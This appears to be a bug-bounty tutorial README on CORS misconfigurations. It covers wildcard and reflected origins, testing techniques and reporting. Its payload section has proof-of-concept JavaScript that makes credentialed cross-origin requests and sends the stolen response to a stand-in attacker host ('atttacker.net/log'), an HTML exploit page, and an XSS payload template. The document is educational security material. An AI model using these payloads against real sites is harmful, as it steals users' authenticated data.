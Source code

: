 # Cross Origin Resource Sharing

- [Explaination](#introduction)
- [Tutorials](#tutorials-for-cross-origin-resource-sharing)
- [Payloads](#payloads-for-cross-origin-resource-sharing)

# Introduction:
Bug bounty hunting has become a popular practice for identifying and reporting security vulnerabilities in web applications. One common area that bug hunters often encounter is Cross-Origin Resource Sharing (CORS) misconfigurations. In this article, we will delve into the world of CORS and explore its significance in bug bounty hunting.

## Understanding CORS:
Cross-Origin Resource Sharing (CORS) is a mechanism that allows web browsers to make cross-origin requests securely. Browsers impose the same-origin policy, which restricts JavaScript code on a web page from making requests to a different domain. CORS relaxes this restriction by defining a set of HTTP headers that enable controlled access to resources from a different domain.

CORS is crucial for modern web applications that rely on APIs and interact with resources hosted on different domains. However, misconfigurations in CORS policies can lead to severe security vulnerabilities, including data leakage, privilege escalation, and even remote code execution.

### Common CORS Misconfigurations:

Wildcard Origins: One of the most common misconfigurations is the use of wildcard origins in the Access-Control-Allow-Origin header. If the server responds with Access-Control-Allow-Origin: *, it allows requests from any domain, opening the door for attackers to abuse the functionality and launch cross-site scripting (XSS) or cross-site request forgery (CSRF) attacks.

Overly Permissive Headers: Server responses that contain overly permissive headers, such as Access-Control-Allow-Methods and Access-Control-Allow-Headers, can result in dangerous exploitation scenarios. Attackers can abuse these headers to perform unauthorized actions or extract sensitive information.

Origin Reflection: Some servers reflect the value of the Origin header in the Access-Control-Allow-Origin header without proper validation. This can enable attackers to bypass the intended CORS restrictions and make cross-origin requests.

Misconfigured Preflight Requests: CORS relies on preflight requests to determine whether a cross-origin request is safe to execute. Misconfigurations in the preflight response headers, such as incorrect or missing Access-Control-Allow-Origin or Access-Control-Allow-Methods, can lead to bypassing CORS restrictions and exposing the application to potential attacks.

### Bug Bounty Hunting Techniques:

Origin Header Manipulation: As a bug bounty hunter, you can start by manipulating the Origin header and observing the server's response. Try different domains and subdomains to identify potential CORS misconfigurations.

CORS Exploitation: Once you identify a misconfiguration, try to exploit it by making cross-origin requests that should ideally be blocked. Test for potential data leakage, privilege escalation, or unauthorized actions that can be performed due to CORS weaknesses.

Preflight Request Analysis: Analyze the preflight request and response headers to identify any inconsistencies or misconfigurations. Pay attention to the Access-Control-Allow-Origin, Access-Control-Allow-Methods, and Access-Control-Allow-Headers headers.

Authorization Bypass: Exploit CORS misconfigurations in combination with other vulnerabilities to bypass authentication or authorization mechanisms. For example, if the server allows cross-origin requests without proper authentication, it may lead to unauthorized access to sensitive information.

### Reporting and Impact:
When you discover a CORS misconfiguration, it is essential to report it responsibly to the organization or platform running the bug bounty program. Provide a detailed report, including the steps to reproduce the issue, impact assessment, and potential remediation suggestions. The impact of a CORS vulnerability can range from low to critical, depending on the specific context and potential exploitation scenarios.

# Conclusion:
Cross-Origin Resource Sharing (CORS) misconfigurations pose significant security risks to web applications. As a bug bounty hunter, having a solid understanding of CORS and its potential vulnerabilities is crucial. By employing various techniques and exploiting misconfigurations, you can uncover critical security flaws, help organizations enhance their security posture, and contribute to a safer web environment. Happy hunting!

### Tutorials for Cross Origin Resource Sharing
* [What is CORS?](https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS) - A good tutorial for CORS by Portswigger
* [Cross Origin Resource Sharing](https://www.geeksforgeeks.org/cross-origin-resource-sharing-cors/) - A tutorial on GeeksforGeeks
* [Think Outside the Scope: Advanced CORS Exploitation Techniques](https://infosecwriteups.com/think-outside-the-scope-advanced-cors-exploitation-techniques-dad019c68397) - A great article on CORS
* [CORS Misconfigurations Explained](https://blog.detectify.com/2018/04/26/cors-misconfigurations-explained/) - Another great article to read

### Payloads for Cross Origin Resource Sharing

**Vulnerable Implementation**
```
GET /endpoint HTTP/1.1
Host: victim.example.com
Origin: https://evil.com
Cookie: sessionid=... 

HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://evil.com
Access-Control-Allow-Credentials: true 

{"[private API key]"}

```

**Proof of Concept**
```
var req = new XMLHttpRequest(); 
req.onload = reqListener; 
req.open('get','https://victim.example.com/endpoint',true); 
req.withCredentials = true;
req.send();

function reqListener() {
    location='//atttacker.net/log?key='+this.responseText; 
};

```
alternative

```
<html>
     <body>
         <h2>CORS PoC</h2>
         <div id="demo">
             <button type="button" onclick="cors()">Exploit</button>
         </div>
         <script>
             function cors() {
             var xhr = new XMLHttpRequest();
             xhr.onreadystatechange = function() {
                 if (this.readyState == 4 && this.status == 200) {
                 document.getElementById("demo").innerHTML = alert(this.responseText);
                 }
             };
              xhr.open("GET",
                       "https://victim.example.com/endpoint", true);
             xhr.withCredentials = true;
             xhr.send();
             }
         </script>
     </body>
 </html>

```

**Vulnerable Example: XSS on Trusted Origin**

```
https://trusted-origin.example.com/?xss=<script>CORS-ATTACK-PAYLOAD</script>

```
